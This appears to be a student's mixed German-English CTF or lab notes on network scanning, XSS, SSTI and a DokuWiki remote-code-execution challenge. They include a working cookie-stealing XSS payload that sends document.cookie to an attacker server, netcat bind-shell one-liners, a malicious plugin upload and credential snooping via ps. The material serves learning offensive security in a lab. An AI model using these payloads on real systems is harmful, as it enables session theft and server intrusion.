             - `scan6 -i eth1 -d fd50:52:132::/120 | tee -a hosts6` 
    - Service Discovery 
        - `nmap <>`
            - Checks if host is up via ping scan
            - Assume host is up and skip ping scan with  `-Pn` 
            - Perform TCP SYN scan (`-sS`) top 1000 ports
                - Stealthy: No handshake completion
                - Can be usded ofr service discorvery
- Common Exploits 
    - XSS
        - Cross Site Scripting
        - **Basic Idea:** Inject Javascript code on a website that somebody else loads, then it gets executed on their machine when opening it
        - **Example Use:** 
            - open local server `$python3 -m http.server --bind 10.181.0.203` 
            - inject javascript into site, for example via a "send us a message" system 
`<img src=x onerror='payload="http://10.181.0.203:8080/?data=" + document.cookie; fetch(payload)'>` 
            - get all their cookies sent to your server and profit
    - SSTI
        - Server-Side Template Injection
        - **Basic Idea:** Templates are rendered server-side and potentially allow execution of (almost) arbitrary code 
        - **Example Use:**  [A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) 
- Challenges 
    - DokuWiki (RCE) (10.183.162.45)
        1. Flag
            1. /install.php öffnen
            2. mal installieren, mit uns als admin
            3. öffnen und einloggen, bam, sind admin
            4. Example Plugin ansehen
        2. Flag
            1. wenn remote-code-execution, und auf dem webserver mehrere seiten liegen, können wir uns verbreiten
            2. im extension manager extentions hochladen
                - php files, die vom webserver ausgeführt werden
            3. admin example plugin
                - darauf aufbauend: eigenes malicious plugin bauen, hochladen, übernehmen
                - `base64 -d > unknown {paste shit here}` (its a zip `file`)
                    - `unzip` 
                - `binwalk/file` findet auch raus, was für typen datein haben
            4. bindshell statt reverse-shell, weil wir nicht davon ausgehen können, das server aus dem servernetz raus telefonieren dürfen 
                - [Online - Reverse Shell Generator](https://www.revshells.com/) (bind shell here)
                    - `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f` 
            5. (ohne bind/reverse-shell: mit php shell einrichten, über den browser dann)
            6. Es gibt im Startverzeichnis eine Datei die nicht Standard ist (`submit-backup`)
            7. Man lädt diese Datei rüber
                1. Es handelt sich um einen Webserver, also einfach Pfad angeben
            8. Betrachtung mit Ghidra zeigt, dass credentials beim Befehlsauruf als cli Argumente übergeben werden
            9. Man macht eine zweite Bindshell auf und guckt, während der Ausführung von  `submit-backup` , welche Argumente übergeben werden
                1. Bindshell in der vorhandenen Bindshell starten
                    1. `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 4445 > /tmp/f &` (& - startet im Hintergrund)
                    2. `submit-backup` starten
                    3. `ps x` gleichzeitg
                    4. profit
        - Archived
            - /install.php
            - Plugins for RCE (Example plugin)
            - Override admin.php